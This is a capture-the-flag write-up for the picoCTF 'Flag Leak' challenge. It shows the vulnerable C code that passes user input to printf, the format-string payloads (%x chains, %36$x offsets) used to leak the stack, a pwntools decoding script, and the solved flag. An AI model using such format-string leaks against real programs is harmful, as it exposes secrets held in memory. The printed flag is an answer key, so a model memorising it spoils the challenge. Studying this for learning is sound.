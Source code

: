 # Flag Leak 
 
## Challenge Description: Story telling class 1/2

For this challenge, the vulnerable program has a format string vulnerability in its **printf** function . From the [source code](./vuln.c), we can see the flag first being read into a local variable *flag*. Subsequently, user input is obtained with **scanf** and subsequently placed into a variable *story*. This *story* is then fed to **printf** as shown: 

```C
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```
After fuzzing the input and determining that it was vulnerable and leaked content with **%d** (decimal) and **%x** (hexadecimal), the following steps were performed:

1. Leaking the top 50 stack hex digits with the following input:

```%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x```

2. Found the known flag characters ```pico``` (**6f636970** in Little Endian) at offset **36**

![flag_offset](https://user-images.githubusercontent.com/71312079/160641846-3ed0e578-1050-4082-97bd-8deef0e901e5.png)

3. Printed the next 10 characters starting from offset **36**

```%36$x,%37$x,%38$x,%39$x,%40$x,%41$x,%42$x,%43$x,%44$x,%45$x```

![flag_hex](https://user-images.githubusercontent.com/71312079/160641843-5015e566-fe69-45a4-b7c8-5a9170541ff4.png)

4. Formatted the output into a python list and decoded it with the following code to produce the flag: 

```python
from pwn import *
flag = b''
a = [0x6f636970,0x7b465443,0x6b34334c,0x5f676e31,0x67346c46,0x6666305f,0x3474535f,0x635f6b63,0x34396532,0x7d643365]
for el in a:
	flag += p32(el)
print(flag)
```


FLAG: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}`

